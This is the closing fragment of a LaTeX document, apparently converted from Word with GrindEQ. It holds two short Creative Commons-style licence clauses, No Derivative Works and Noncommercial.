\noindent No  Derivative  Works: The licensor permits others to copy, distribute, display and perform only unaltered copies of the work -- not derivative works based on it.

\noindent 

\noindent Noncommercial: The licensor permits others to copy, distribute, display, and perform the work. In return, licensees may not use the work for commercial purposes -- unless they get the licensor's permission.


\end{document}

% == UNREGISTERED! == GrindEQ Word-to-LaTeX 2008 ==

